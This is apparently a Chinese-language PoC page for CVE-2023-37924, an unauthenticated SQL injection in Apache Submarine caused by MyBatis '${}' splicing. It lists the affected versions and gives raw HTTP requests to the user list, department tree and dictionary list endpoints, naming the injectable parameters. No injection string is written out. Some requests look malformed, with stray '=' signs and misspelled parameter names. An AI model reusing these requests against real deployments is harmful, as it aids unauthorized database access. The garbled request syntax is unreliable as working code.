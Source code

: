 
## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，使用了${}造成sql注入漏洞
![](./assets/20231123192338.png)


## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现
![image](https://github.com/wy876/POC/assets/139549762/904c3929-8590-4a7d-a695-48b0bb1b2832)
![image](https://github.com/wy876/POC/assets/139549762/cdc34528-456b-4c51-ad35-f23d5752152d)


